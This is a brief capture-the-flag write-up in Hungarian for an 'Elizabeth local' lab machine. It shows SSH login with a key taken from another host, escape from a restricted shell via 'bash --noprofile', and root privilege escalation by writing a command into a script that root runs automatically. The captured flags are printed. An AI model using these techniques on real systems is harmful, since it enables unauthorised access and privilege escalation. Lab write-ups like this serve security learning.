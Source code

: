 # Elizabeth local

Keresd meg Bettit is 10.10.(1-9).11:222

---

https://d00mfist.gitbooks.io/ctf/content/escaping_restricted_shell.html

egy tok masik gepen talahato id_rsa-val kell belepni apollo neven (az ottani user neve)

```
ssh -i id_rsa apollo@10.10.1.11 -p 222
```
egy restricted shellbe jutunk, de megsejthetjuk hogy mit kell csinalni:
```
echo "$(<flag.txt)"
```

ez sokkal faszabb:
```
ssh -i id_rsa apollo@10.10.1.11 -p 222 -t "bash --noprofile"
apollo@d034e0a450d4:/srv/proftp$ cat /home/apollo/flag.txt
{HCSC}-31Lizab3tH-L0;C4l_Fl@g
```

root:
```
apollo@d034e0a450d4:/srv/proftp$ ls
Note_for_Apollo.txt
apollo@d034e0a450d4:/srv/proftp$ cat Note_for_Apollo.txt
Apollo darling,
I couldn't setup proper access for you yet.
IT won't allow you to have root access because of some technical/management issues. However i quickly came up with a solution
that allows you to run root commands. Just copy the commands here and my automated script will execute it.
~XoXo : Liz
P.S.: bring milk on your way home
apollo@d034e0a450d4:/srv/proftp$ echo 'cat /root/flag.txt >> /tmp/x.x' > x.sh
apollo@d034e0a450d4:/srv/proftp$ cat /tmp/x.x
{HCSC}-Eliz4b3tH-_R0otFl4G!
apollo@d034e0a450d4:/srv/proftp$ echo 'echo '' > /tmp/x.x' > x.sh
